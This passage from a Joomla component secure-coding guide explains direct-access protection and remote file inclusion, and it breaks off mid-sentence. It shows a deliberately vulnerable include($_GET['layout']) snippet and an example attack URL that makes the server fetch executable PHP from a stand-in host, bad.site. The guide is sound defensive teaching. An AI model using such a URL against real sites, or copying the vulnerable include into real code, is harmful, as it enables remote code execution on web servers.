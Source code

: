 As you can see, the PHP file will be executed directly, without Joomla!
as a wrapper around it. Now, if your file only contains some classes or
functions, but does not execute any code, there is nothing wrong about
that:

```php
<?php
 class myClass {
     [SomeFunctionsHere]
 }
 function myFunction() {
     [SomeCodeHere]
 }
 ?>
 ```

The cracker would just see an empty page when accessing your file
directly. But if that PHP file actually executes anything, he would
probably see a bunch of error messages, revealing important details of
your system. Under some circumstances, he might also be able to execute
any code he wants to, on your system!

**Conclusion:**

To make your component secure against direct access, insert this code
line into the beginning of every PHP file that executes code:

    // no direct access
    defined('_JEXEC') or die('Restricted access');

This is a MUST for every file that executes PHP code. If you are in
doubt whether your file executes code, do use this line!

## Secure your software against remote file inclusion

Recent advances in PHP and Joomla security have made this exploit more
difficult, but it is still important to be aware of it and guard against
it, particularly if you allow user input to define a file path For
example suppose in a template you use code such as the following:-

    $layout = $_GET['layout'];
    include($layout);

An attacker could craft the url to inject a remote file name into the
layout parameter, for example they may try to access your component as:-

    http://www.example.com/com_yourcomponent/views/yourcomponent?layout=http://www.bad.site/bad.gif

which actually sends back executable PHP code under the filename of that
image. The attacker can do anything he wants to do on your webserver!
This is called remote file inclusion. Unfortunately, this is something
even script kiddies could do easily. How to secure against this? Firstly
this kind of attack is made much more difficult by using the absolute
path when including a file, it removes any ambiguity about where PHP
should find the file, for example
